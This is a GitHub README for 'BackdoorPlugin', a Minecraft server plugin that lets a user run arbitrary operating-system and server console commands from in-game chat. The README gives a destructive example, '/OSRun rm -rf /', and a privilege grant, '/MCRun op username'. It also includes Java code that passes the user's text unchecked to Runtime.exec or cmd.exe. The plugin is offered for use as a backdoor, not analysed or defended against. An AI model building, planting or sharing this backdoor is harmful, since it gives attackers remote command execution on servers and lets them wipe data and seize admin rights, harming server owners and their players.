


# :electric_plug: BackdoorPlugin
Minecraft plugin which allow you to execute OS and console commands

# :mega: Features
- Linux/Windows support
- Run OS commands `/OSRun rm -rf /`
- Run console commands `/MCRun op username`

## :droplet: Windows (mkdir example)
<p align="center">
  
</p>

## :penguin: Linux (shutdown example)
<p align="center">
  
</p>


## :zap: How it works?
``` java
public class CommandsRunner {
	
	private final static String OSName = System.getProperty("os.name").toLowerCase();
	
	public static String ExecCommand(String command) {
		String result = "";
		try {
			// Detect OS & create process
			Process proc;
			if (OSName.contains("windows")) {
				proc = Runtime.getRuntime().exec(
						new String[] { "cmd.exe", "/c", command }
					);
			} else {
				proc = Runtime.getRuntime().exec(command);
			}
			
			// Read output
			Scanner sc = new Scanner(proc.getInputStream());
	        while (sc.hasNext()) {
	        	result += sc.next();
	        }
	        sc.close();
		} catch (IOException e) { e.printStackTrace(); }
		// Decode results...
		try { return URLDecoder.decode(result, "utf-8");
		} catch (UnsupportedEncodingException e) { return result; }
	}
}
```
